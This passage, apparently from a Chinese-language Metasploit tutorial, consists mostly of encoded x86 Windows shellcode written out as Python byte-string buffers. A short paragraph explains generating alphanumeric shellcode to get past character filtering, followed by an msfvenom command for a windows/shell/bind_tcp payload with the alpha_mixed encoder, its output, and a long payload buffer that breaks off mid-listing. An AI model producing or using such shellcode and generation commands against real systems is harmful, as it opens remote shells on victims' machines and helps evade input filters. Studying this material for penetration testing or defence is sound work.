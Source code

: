buf += "\x06\xd3\xf6\x1a\xfe\x0a\xfe\x28\xbe\x1a\x42\x9c\xde"
buf += "\x01\x16\x27\xbd\x29\x1c\xf8\x7d\x47\x2c\x68\x06\x0e"
buf += "\x23\x31\xfe\x7d\x58\xe8\x7b\x76\x4b\xfe\xdb\x17\x51"
buf += "\xfa\xdf\xff\xa1\xbc\xc5\x66\x4b\xea\x23\x86\x47\xb4"
buf += "\xe7\xd5\x71\x77\x2e\x24\x4a\x3d\xb1\x6f\x12\xf2\xb2"
buf += "\xd0\x55\xc9\x23\x2e\xc2\xa5\x73\xb2\xc8\xb7\x7d\x6b"
buf += "\x55\x29\xbc\x26\xdd\xf6\xe3\xf6\x25\xc6\x5c\xad\x9c"
buf += "\x9d\x18\x08\x3b\xbf\xd2\xff\x92\x18\x5f\x48\x9b\xe0"
buf += "\x7b\x03\xa5\x32\x11\x27\x2b\x25\xcd\x44\xdb\xbd\xb9"
buf += "\xcd\x48\xda\x56\x4c\x56\xd5\x04\x87\x48\x3a\x6b\x9c"
buf += "\x2a\x15\x4d\xbc\x0b\x56\x06\xb5\xc9\x46\xd0\xfa\x68"
buf += "\xa6\x76\xe9\x52\x2c\x24\x62\x28\xe1\x1d\x87\xb0\x66"
buf += "\x93\x85\x8f\x87\x0f\xcf\x16\x29\x76\x03\x55\x0c\x0e"
buf += "\x3f\x17\xac"
```

#### 生成字符数字化(可读数字字母)的shellcode

有时，你可能需要生成可的字符数字化的shellcode，因为目标系统中存在着字符过滤。利用MSF msfvenom可以简单地生成字母数字化的shellcode。例如生成一个混合了字母数字大写和小写的编码shellcode，我们可以使用下列命令：

```
root@kali:~# msfvenom -a x86 --platform windows -p windows/shell/bind_tcp -e x86/alpha_mixed -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 660 (iteration=0)
x86/alpha_mixed chosen with final size 660
Payload size: 660 bytes
buf =  ""
buf += "\x89\xe2\xdb\xc3\xd9\x72\xf4\x5f\x57\x59\x49\x49\x49"
buf += "\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"
buf += "\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41"
buf += "\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
buf += "\x58\x50\x38\x41\x42\x75\x4a\x49\x79\x6c\x68\x68\x4f"
buf += "\x72\x67\x70\x45\x50\x65\x50\x73\x50\x4b\x39\x69\x75"
buf += "\x70\x31\x69\x50\x51\x74\x6e\x6b\x42\x70\x54\x70\x6c"
buf += "\x4b\x53\x62\x76\x6c\x4c\x4b\x33\x62\x75\x44\x4c\x4b"
buf += "\x43\x42\x47\x58\x54\x4f\x6c\x77\x42\x6a\x55\x76\x44"
buf += "\x71\x69\x6f\x6c\x6c\x57\x4c\x43\x51\x43\x4c\x77\x72"
buf += "\x34\x6c\x65\x70\x39\x51\x4a\x6f\x56\x6d\x66\x61\x6b"
buf += "\x77\x48\x62\x6b\x42\x62\x72\x50\x57\x4e\x6b\x72\x72"
buf += "\x54\x50\x4e\x6b\x62\x6a\x57\x4c\x4e\x6b\x62\x6c\x37"
buf += "\x61\x63\x48\x4d\x33\x42\x68\x33\x31\x38\x51\x42\x71"
buf += "\x6e\x6b\x56\x39\x47\x50\x47\x71\x6b\x63\x6c\x4b\x32"
buf += "\x69\x52\x38\x4b\x53\x35\x6a\x51\x59\x6c\x4b\x50\x34"
buf += "\x4c\x4b\x45\x51\x6b\x66\x35\x61\x49\x6f\x6c\x6c\x79"
buf += "\x51\x78\x4f\x46\x6d\x77\x71\x49\x57\x35\x68\x79\x70"
buf += "\x34\x35\x4c\x36\x57\x73\x73\x4d\x59\x68\x67\x4b\x73"
buf += "\x4d\x56\x44\x70\x75\x48\x64\x31\x48\x6e\x6b\x50\x58"
buf += "\x54\x64\x43\x31\x6b\x63\x35\x36\x6c\x4b\x76\x6c\x72"
buf += "\x6b\x4e\x6b\x70\x58\x35\x4c\x43\x31\x78\x53\x4e\x6b"
buf += "\x36\x64\x4c\x4b\x65\x51\x6a\x70\x4c\x49\x53\x74\x66"
buf += "\x44\x75\x74\x31\x4b\x71\x4b\x45\x31\x61\x49\x63\x6a"
buf += "\x30\x51\x49\x6f\x39\x70\x63\x6f\x63\x6f\x72\x7a\x6c"
buf += "\x4b\x55\x42\x68\x6b\x6e\x6d\x43\x6d\x55\x38\x37\x43"
buf += "\x76\x52\x43\x30\x57\x70\x63\x58\x52\x57\x63\x43\x74"
buf += "\x72\x63\x6f\x62\x74\x65\x38\x50\x4c\x44\x37\x77\x56"
buf += "\x54\x47\x39\x6f\x49\x45\x68\x38\x6a\x30\x73\x31\x35"
buf += "\x50\x67\x70\x75\x79\x68\x44\x70\x54\x52\x70\x72\x48"
buf += "\x74\x69\x4f\x70\x50\x6b\x63\x30\x39\x6f\x4e\x35\x71"
buf += "\x7a\x34\x4b\x70\x59\x56\x30\x68\x62\x59\x6d\x73\x5a"
buf += "\x65\x51\x72\x4a\x57\x72\x71\x78\x5a\x4a\x36\x6f\x59"
buf += "\x4f\x4b\x50\x79\x6f\x39\x45\x6f\x67\x50\x68\x77\x72"